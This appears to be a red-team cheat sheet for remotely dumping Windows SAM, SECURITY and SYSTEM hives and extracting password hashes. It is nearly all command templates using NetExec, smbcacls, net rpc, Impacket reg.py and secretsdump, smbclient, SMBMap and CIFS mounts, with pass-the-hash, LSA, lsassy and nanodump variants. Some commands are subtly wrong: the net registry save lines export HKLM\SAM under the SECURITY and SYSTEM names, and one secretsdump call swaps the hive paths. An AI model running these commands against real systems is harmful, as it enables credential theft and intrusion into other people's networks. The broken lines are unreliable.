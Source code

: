 # Unix Shell

Search Tag(s): #post-exploitation #credential-access-and-dumping #network-protocols #msrpc #smb #staying-off-the-land #windows

## 01 - Manual Hashdump

### 1.1 - Search hive files

#### 1.1.1 - NetExec

```
$ netexec smb <IP> -u <username> -p <password> [-d <domain> | --local-auth] --spider "C$" --spider-folder /Windows/System32/config/ --regex "(SAM|SECURITY|SYSTEM)"

$ netexec smb <IP> -u <username> -H <nt_hash> [-d <domain> | --local-auth] --spider "C$" --spider-folder /Windows/System32/config/ --regex "(SAM|SECURITY|SYSTEM)"
```

### 1.2 - Enumerate hive files

Using `smbcacls` to enumerate the existing files.

```
$ cat hive_files.txt
/Windows/System32/config/SAM
/Windows/System32/config/SECURITY
/Windows/System32/config/SYSTEM
/Windows/Repair/SAM
/Windows/Repair/SYSTEM

$ while read line; do echo "Hive filename: $line\n"; smbcacls -U "[<domain>/]<username>%<password>" //<IP>/C$ $line 2>/dev/null; done < hive_files.txt

$ while read line; do echo "Hive filename: $line\n"; smbcacls -U "[<domain>/]<username>" --pw-nt-hash <nt_hash> //<IP>/C$ $line 2>/dev/null; done < hive_files.txt
```

Using `smbclient` to enumerate the existing files while enabling `showacls`.

```
smb: \> showacls

smb: \> ls /Windows/System32/config/SAM

smb: \> ls /Windows/System32/config/SECURITY

smb: \> ls /Windows/System32/config/SYSTEM
```

### 1.3 - Extract hive files

#### 1.3.1 - MSRPC Network Protocol

##### 1.3.1.1 - `net`

```
$ net <ads | rpc> registry save "HKLM\SAM" "C:\Windows\Temp\SAM" -U "[<domain>/]<username>%<password>" -S <IP>

$ net <ads | rpc> registry save "HKLM\SAM" "C:\Windows\Temp\SECURITY" -U "[<domain>/]<username>%<password>" -S <IP>

$ net <ads | rpc> registry save "HKLM\SAM" "C:\Windows\Temp\SYSTEM" -U "[<domain>/]<username>%<password>" -S <IP>
```

Pass The Hash

```
$ net <ads | rpc> registry save "HKLM\SAM" "C:\Windows\Temp\SAM" -U "[<domain>/]<username>" --pw-nt-hash <nt_hash> -S <IP>

$ net <ads | rpc> registry save "HKLM\SAM" "C:\Windows\Temp\SECURITY" -U "[<domain>/]<username>" --pw-nt-hash <nt_hash> -S <IP>

$ net <ads | rpc> registry save "HKLM\SAM" "C:\Windows\Temp\SYSTEM" -U "[<domain>/]<username>" --pw-nt-hash <nt_hash> -S <IP>
```

##### 1.3.1.2 - Impacket

```
$ reg.py "<username>":"<password>"@<IP> save -keyName "HKLM\SAM" -o "\\\\<IP>\\c$\\windows\\temp\\"

$ reg.py "<username>":"<password>"@<IP> save -keyName "HKLM\SECURITY" -o "\\\\<IP>\\c$\\windows\\temp\\"

$ reg.py "<username>":"<password>"@<IP> save -keyName "HKLM\SYSTEM" -o "\\\\<IP>\\c$\\windows\\temp\\"
```

#### 1.3.2 - SMB Network Protocol

##### 1.3.2.1 - `smbclient`

TODO: Modify the permissions with `smbcacls` in order to download them

```
$ smbclient -U "[<domain>/]<username>%<password>" //<IP>/C$ -c "get /Windows/System32/config/SAM; get /Windows/System32/config/SECURITY; get /Windows/System32/config/SYSTEM"

$ smbclient -U "[<domain>/]<username>" --pw-nt-hash <nt_hash> //<IP>/C$ -c "get /Windows/System32/config/SAM; get /Windows/System32/config/SECURITY; get /Windows/System32/config/SYSTEM"
```

##### 1.3.2.2 - SMBMap

```
$ smbmap -u "<username>" -p "< <password> | <nt_hash> >" [-d <domain>] -H <IP> --download "C$\Windows\System32\config\SAM"

$ smbmap -u "<username>" -p "< <password> | <nt_hash> >" [-d <domain>] -H <IP> --download "C$\Windows\System32\config\SECURITY"

$ smbmap -u "<username>" -p "< <password> | <nt_hash> >" [-d <domain>] -H <IP> --download "C$\Windows\System32\config\SYSTEM"
```

##### 1.3.2.3 - NetExec

```
$ netexec smb <IP> -u <username> -p <password> [-d <domain> | --local-auth] --get-file /Windows/System32/config/SAM SAM

$ netexec smb <IP> -u <username> -p <password> [-d <domain> | --local-auth] --get-file /Windows/System32/config/SECURITY SECURITY

$ netexec smb <IP> -u <username> -p <password> [-d <domain> | --local-auth] --get-file /Windows/System32/config/SYSTEM SYSTEM
```

### 1.4 - Parse hive files

#### 1.4.1 - Mount Remote SMB

Create a temporary folder for mounting an SMB share.

```
# mkdir /mnt/share
```

Mount SMB share with various authentication methods.

```
# mount -t cifs -o [domain=<domain>,]username=<username>,password=<password>,rw //<IP>/C$ /mnt/share

# smbmount //X.X.X.X/c$ /mnt/remote/ -o username=user,password=pass,rw

# mount -t cifs -o [domain=<domain>,]username=<username>,password=<nt_hash>,sec=ntlmssp,rw //<IP>/C$ /mnt/share

# mount -t cifs -o sec=krb5,vers=3.0,rw '//<IP>/C$' /mnt/share
```

Harvest the credentials.

```
# secretsdump.py -sam /mnt/share/Windows/System32/config/SAM -system /mnt/share/Windows/System32/config/SYSTEM local

# secretsdump.py -sam /mnt/share/Windows/System32/config/SAM -security /mnt/share/Windows/System32/config/SYSTEM -system /mnt/share/Windows/System32/config/SECURITY local
```

If you have already downloaded the HIVE files. Then parse them with the fields.

```
$ secretsdump.py -sam /path/to/sam_hive_file -system /path/to/system_hive_file local

$ secretsdump.py -sam /path/to/sam_hive_file -security /path/to/security_hive_file -system /path/to/system_hive_file local
```

## 02 - Automated Hashdump

### 2.1 - Impacket

```
$ secretsdump.py [<domain>/]<username>:<password>@<IP> [-exec-method <smbexec | wmiexec | mmcexec>]

$ secretsdump.py [<domain>/]<username>@<IP> -hashes :<nt_hash> [-exec-method <smbexec | wmiexec | mmcexec>]
```

### 2.2 - NetExec

```
$ netexec smb <IP> -u <username> -p <password> [-d <domain> | --local-auth] --sam

$ netexec smb <IP> -u <username> -p <password> [-d <domain> | --local-auth] --lsa

$ netexec smb <IP> -u <username> -p <password> [-d <domain> | --local-auth] -M lsassy

$ netexec smb <IP> -u <username> -p <password> [-d <domain> | --local-auth] -M nanodump
```

---
## References

- [Samdump2](https://salsa.debian.org/pkg-security-team/samdump2)

- [Wadcoms Impacket Secretsdump](https://wadcoms.github.io/wadcoms/Impacket-SecretsDump/)
